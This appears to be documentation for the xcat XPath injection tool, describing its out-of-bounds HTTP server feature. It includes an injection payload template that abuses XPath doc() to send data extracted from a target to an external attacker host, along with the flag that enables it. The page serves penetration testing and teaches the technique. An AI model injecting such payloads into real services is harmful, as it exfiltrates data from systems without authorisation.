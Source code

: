 # Out of bounds HTTP server

The out-of-bounds (OOB) server that xcat provides is a powerful way of drastically speeding up 
retrieval.

It works by abusing the XPath `doc()` function, which is used to read arbitrary local or network 
files. Using this method xcat will instruct the service to load an XML file from it's server, passing 
any data it wishes to retrieve in the query string:

`doc(concat('http://[external-host]/data/123?d=', func.encode_for_uri(TARGET EXPRESSION)))`

This requires that:
- You have an externally routable IP that the target server can connect to
- The XPath library is configured to load external documents (many default configurations allow this)
- The port is not blocked by any firewalls

To enable this feature simply pass the `--oob` flag to any xcat command.

The `--oob` flag should in a `host:port` format, and it is up to you to find a combination that works. 
To test this combination run `xcat detect` and check that the `oob-http` feature is enabled.

## Demo

This shows xcat connecting to a local server and using the `--oob` flag to retrieve the document much 
faster than other methods.

<script id="asciicast-216047" src="https://asciinema.org/a/216047.js" async></script>
